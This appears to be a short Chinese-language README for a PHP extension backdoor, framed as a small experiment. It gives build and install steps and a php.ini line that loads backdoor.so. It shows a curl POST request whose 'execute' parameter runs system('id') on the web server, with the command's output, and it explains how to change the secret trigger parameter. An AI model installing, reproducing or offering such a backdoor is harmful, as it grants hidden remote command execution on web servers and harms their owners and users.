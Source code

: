 # php扩展后门小实验

> 环境 Ubuntu 16.04, PHP 5.6

**编译安装**

```shell
# phpize && ./configure && make && sudo make install
```

修改配置文件 `php.ini`, 增加 `extension=backdoor.so`

重启PHP服务 `service php-fpm restart`

----

**测试**

```shell
# curl http://localhost/index.php --data "execute=system('id');"
uid=1002(www) gid=1002(www) groups=1002(www)
```

----

**自定义POST参数**

修改文件 `backdoor.c`

```c
char* secret_string = "execute";
# char* secret_string = "POST参数";
```
